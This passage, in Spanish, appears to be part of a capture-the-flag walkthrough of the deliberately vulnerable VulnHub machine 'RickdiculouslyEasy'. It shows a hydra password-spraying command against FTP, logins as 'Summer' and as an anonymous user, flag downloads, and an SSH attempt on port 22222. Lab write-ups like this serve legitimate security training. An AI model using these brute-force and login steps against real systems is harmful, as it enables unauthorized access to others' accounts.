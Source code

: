 ```bash
sudo hydra -L users.txt -p winter 192.168.122.11 ftp
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/19.png){: .align-center}

Entrar por ftp con el usuario `Summer` y la contraseña `winter`

```bash
ftp 192.168.122.11
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/20.png){: .align-center}

Descargar el archivo `FLAG.txt`

```bash
get FLAG.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/21.png){: .align-center}

Leer el archivo `FLAG.txt`

```bash
cat FLAG.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/22.png){: .align-center}

Tratar de entrar por ftp de forma anónima

```bash
ftp 192.168.122.11
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/23.png){: .align-center}

Descargar el archivo `FLAG.txt`

```bash
get FLAG.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/24.png){: .align-center}

Leer el archivo `FLAG.txt`

```bash
cat FLAG.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/rickdiculouslyeasy/25.png){: .align-center}

Tratar de entrar por ssh con el usuario Summer y la contraseña `winter`. Como se puede ver en los puertos aparecen `22` y `22222`. Esto es porque el servidor SSH ha sido configurado para usar el puerto `22222`, es por esto que habrá que especificarlo.

```bash
ssh Summer@192.168.122.11 -p 22222  
```
